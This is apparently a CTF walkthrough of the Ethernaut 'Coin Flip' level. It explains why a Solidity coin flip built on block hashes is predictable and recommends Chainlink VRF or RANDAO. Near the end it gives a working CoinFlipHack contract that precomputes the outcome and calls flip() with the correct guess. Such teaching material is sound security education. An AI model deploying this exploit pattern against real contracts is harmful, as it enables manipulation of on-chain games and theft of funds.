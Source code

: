 # Coin Flip

To complete this level we will have to guess the correct outcome of the coin flip 10 times in a row.

## Code Breakdown

[The Smart Contract's Code can be seen here.](CoinFlip.sol)

```solidity
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
```

This contract's has 3 uint256 variables:

- consecutiveWins: public variable, this will keep track of our current streak of correct guesses.
- lastHash: internal variable, this will keep track of the last calculated "hash"
- FACTOR: internal variable, a big number that will be used in calculating the outcome of the coin flip.

```solidity
function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```
This contract only consists of one main function `flip()`. It determines the outcome of a **pseudo-random** coinflip with the help of the latest `block number` hash, using the following formula that generates either 1 or 0: 
```solidity
uint256(blockhash(block.number - 1)) / FACTOR;
```
Another important check that we can notice is this condition:
```solidity
if (lastHash == blockValue) {
      revert();
    }
```
This checks keeps track of the latest hash calculated and reverts if identical. This will stop us from sending 10 transactions at a time in the same block with the same guess and getting them all correct.

### The problem with randomness in the blockchain 

Generating random numbers in solidity can be tricky.
One of the popular means of achieving on-chain randomness is `Block-hashing`, at first it seems that the coinflip is indeed random but since blockchain data is public and the hashes are deterministic, everyone gets to see the block number and calculate the same hash, malicious miners can even modify block headers or choose not to publish blocks in order to influence the resulting hashes.

To get cryptographically proven random numbers, you can use [Chainlink VRF](https://docs.chain.link/vrf/v2/subscription/examples/get-a-random-number) or other solutions such as [RANDAO](https://github.com/randao/randao), [provable.xyz](https://provable.xyz/)

### Level Completion

We can get the block number and hash from console using [web3.eth.getBlock](https://web3js.readthedocs.io/en/v1.2.11/web3-eth.html#getblock) :
```js
>  (await web3.eth.getBlock()).hash
<· "0x5820215401f0405a39d3a4e1a33eadb46ec4ff30fa3649d004d465c5b69c1db6"
```
but trying to calculate the coinflip then calling `flip()` from our console using web3js will not work consistently because the transactions may take multiple blocks to be confirmed and mined. This will cause our blockhash to be outdated.

We will create a minimalistic smart contract that mimics the same logic and make it call `flip()` with the correct guess.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlipHack {
    //address of the deployed game instance
    address addr = 0x7D35C1ecb804b7ac13D13DC8E0362B208b1478Cd;

    function hack() public returns (bool){
        CoinFlip cf = CoinFlip(addr);
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        return cf.flip(side); // call to flip() function.
    }
}

// We need to define the game instance interface so we can call its functions from our smart contract

interface CoinFlip {
    function flip(bool _guess) external returns (bool); 
}
```
We can now compile, deploy and interact with our smart contract using [Remix IDE](https://remix.ethereum.org/), then calling the `hack()` function 10 times.